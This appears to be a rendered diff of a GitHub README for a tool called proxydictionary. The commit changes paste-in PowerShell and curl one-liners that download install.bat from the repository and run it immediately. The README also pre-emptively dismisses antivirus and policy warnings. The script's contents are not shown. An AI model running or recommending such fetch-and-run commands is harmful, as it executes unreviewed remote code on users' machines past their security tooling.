

Before and after one commit to debug-cli/proxydictionary, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
fix: make one-liner bootstrap more robust (normalize CRLF line endings for .bat ^ continuations)

````diff
--- a/README.md
+++ b/README.md
@@ -28,16 +28,24 @@ It may look shady to AV / corporate policy engines. **It is 100% open source.**
 1. Paste the raw URL into [VirusTotal](https://www.virustotal.com) before running.
 2. Inspect the code yourself (it's a small .bat + this repo).
 
-**Powershell (works in classic blue Powershell and PS7):**
+**PowerShell (recommended - works in classic blue PowerShell and PS7+):**
+
+This version is more reliable (handles line endings from GitHub downloads):
 
 ```powershell
-powershell -Command "iwr -UseBasicParsing -Uri 'https://raw.githubusercontent.com/debug-cli/proxydictionary/master/install.bat' -OutFile 'install.bat'; .\install.bat"
+powershell -Command "
+  $url = 'https://raw.githubusercontent.com/debug-cli/proxydictionary/master/install.bat';
+  $f = 'install.bat';
+  (Invoke-WebRequest -UseBasicParsing -Uri $url).Content -replace \"`r?`n\", \"`r`n\" | Set-Content -Path $f -Encoding ASCII;
+  cmd /c .\$f
+"
 ```
 
-**CMD / curl (if available):**
+**Using curl (then fix + run):**
 
 ```cmd
-curl -L -o install.bat https://raw.githubusercontent.com/debug-cli/proxydictionary/master/install.bat && install.bat
+curl -L -o install.bat https://raw.githubusercontent.com/debug-cli/proxydictionary/master/install.bat
+powershell -Command "(Get-Content install.bat -Raw) -replace \"`r?`n\",\"`r`n\" | Set-Content install.bat -Encoding ASCII; cmd /c install.bat"
 ```
 
 The script will:
````
